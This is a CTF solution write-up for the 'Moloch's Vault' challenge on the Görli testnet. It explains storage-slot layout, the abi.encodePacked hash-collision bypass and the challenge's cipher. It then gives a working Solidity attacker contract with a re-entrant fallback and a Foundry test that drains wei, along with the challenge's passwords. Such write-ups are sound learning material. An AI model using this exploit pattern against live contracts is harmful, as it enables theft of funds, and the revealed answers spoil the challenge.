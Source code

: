 # Proof of Concept for Moloch's Vault CTF Challenge

## Objective

This document presents a proof of concept for the Moloch's Vault CTF Challenge. The objective of the challenge is to steal at least 1 WEI from the MolochVault contract.

## Contract Details

- Contract Address (Görli Testnet): 0xafb9ed5cd677a1bd5725ca5fcb9a3a0572d94f6f
- Contract Source: [Etherscan](https://goerli.etherscan.io/address/0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f#code)

## Questions

### Detailed formula for finding the slot of the dynamic struct

Source: <https://docs.soliditylang.org/en/v0.8.19/internals/layout_in_storage.html?highlight=dynamic%20struct#mappings-and-dynamic-arrays>

Due to their unpredictable size, mappings and dynamically-sized array types cannot be stored “in between” the state variables preceding and following them. Instead, they are considered to occupy only 32 bytes with regards to the rules above and the elements they contain are stored starting at a different storage slot that is computed using a Keccak-256 hash.

If the mapping value is a non-value type, the computed slot marks the start of the data. If the value is of struct type, for example, you have to add an offset corresponding to the struct member to reach the member.

In the challenge we have the following declaration:

```solidity
struct Cabal {
        address payable identity;
        string password;
    }
    Cabal[] private cabals;
```

The formula for finding the slot of the identity and password fields of the n element of the cabals array, where p is the storage slot of cabals, is:

```solidity
identity_slot = keccak256(keccak256(p) + n);
password_slot = keccak256(keccak256(p) + n) + 1;
```

### Details of decrypting Moloch-algorithm

The Moloch algorithm is a simple caesar cipher that used a different key for vowels and consonants. The key for vowels is 24 and the key for consonants is 2.

### Explain bypass for keccak256(abi.encodePacked())

Source: <https://docs.soliditylang.org/en/v0.8.19/abi-spec.html#non-standard-packed-modes>

If you use `keccak256(abi.encodePacked(a, b))` and both a and b are dynamic types, it is easy to craft collisions in the hash value by moving parts of a into b and vice-versa. More specifically, `abi.encodePacked("a", "bc") == abi.encodePacked("ab", "c")`. If you use abi.encodePacked for signatures, authentication or data integrity, make sure to always use the same types and check that at most one of them is dynamic. Unless there is a compelling reason, abi.encode should be preferred.

## Proof of Concept

### MolochCaller.sol

```solidity
pragma solidity ^0.8.16;

import "./MOLOCH_VAULT.sol";

contract MolochCaller {
    MOLOCH_VAULT molochVault;

    constructor(address payable _molochVaultAddress) {
        molochVault = MOLOCH_VAULT(_molochVaultAddress);
    }

    function callUhER778(string[3] memory _openSecrete) public payable {
        // Make sure the MolochCaller has at least 2 wei balance to forward to MOLOCH_VAULT
        require(
            address(this).balance >= 2 wei,
            "MolochCaller balance must be at least 2 wei"
        );

        // Call the uhER778 function in the MOLOCH_VAULT contract
        (bool success, ) = address(molochVault).call{value: 2 wei}(
            abi.encodeWithSignature("uhER778(string[3])", _openSecrete)
        );

        // Check if the call was successful
        require(success, "uhER778 call failed");
    }

    function callSendGrant(address _guarantee) public payable {
        molochVault.sendGrant(payable(_guarantee));
    }

    // Function to deposit Ether into the MolochCaller
    function deposit() public payable {
        require(msg.value > 0, "Must deposit a positive amount of Ether");
    }

    // Fallback function to receive Ether
    fallback() external payable {
        // Forward the received 1 wei back to the MOLOCH_VAULT contract
        (bool sent, ) = address(molochVault).call{value: 2 wei}("");
        require(sent, "Failed to send 1 wei back to MOLOCH_VAULT");
    }
}
```

### MOLOCH_VAULT.t.sol

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.16;

import "forge-std/Test.sol";
import "../src/MOLOCH_VAULT.sol";
import "../src/MolochCaller.sol";

contract MolochVaultTest is Test {
    MOLOCH_VAULT molochVault;
    address payable vaultAddress =
        payable(0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f);

    // re-entrant exploiter caller
    MolochCaller molochCaller;

    // OSINT Information
    // Source: https://goerli.etherscan.io/address/0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f#code

    // Constructor Arguments:
    // molochPass: The Moloch password
    string molochPass = "BLOODY PHARMACIST";

    // question: The two parts of the question
    string[2] question = ["WHO DO YOU", "SERVE?"];

    // initialCabalsAddresses: The initial addresses for the Cabals
    address payable[3] initialCabalsAddresses = [
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4),
        payable(0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2),
        payable(0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db)
    ];

    // initialCabalsPasswords: The initial passwords for the Cabals
    string[3] initialCabalsPasswords = [
        "KCLEQ",
        "BGTGJQNGP",
        "ZJQQBW*NFCPKCAKQR"
    ];

    // Deployment Transaction:
    // https://goerli.etherscan.io/tx/0x72049d23504379883f2dbd9265bb80ef0031beb2f3d12e18865ca4a2c7a63390

    // Vault Deployer Address
    address deployer = 0x6c3b4b9f3B27fA64dEB63962e49Fc582f5187E05;

    // Moloch Hash
    bytes32 Moloch;

    // hsah Hash
    bytes32 hsah;

    // hy7UIH Hash
    bytes32 hy7UIH;

    function setUp() public {
        vm.deal(msg.sender, 1 ether);
        molochVault = MOLOCH_VAULT(vaultAddress);
        // calculating constructor immutable variables
        Moloch = calculateMolochHash(address(deployer));
        hsah = keccak256(abi.encodePacked(molochPass));
        hy7UIH = keccak256(abi.encodePacked(question[0], question[1]));
        molochCaller = new MolochCaller(payable(address(molochVault)));
        molochCaller.deposit{value: 3 wei}();
    }

    function testHack() public {
        string[2] memory differentQuestion = ["WHO DO ", "YOUSERVE?"];
        string[3] memory _openSecrete = [
            molochPass,
            differentQuestion[0],
            differentQuestion[1]
        ];
        molochCaller.callUhER778(_openSecrete);
        molochCaller.callSendGrant(msg.sender);
    }

    function calculateMolochHash(address addr) public pure returns (bytes32) {
        return keccak256(abi.encodePacked(addr));
    }
}
```
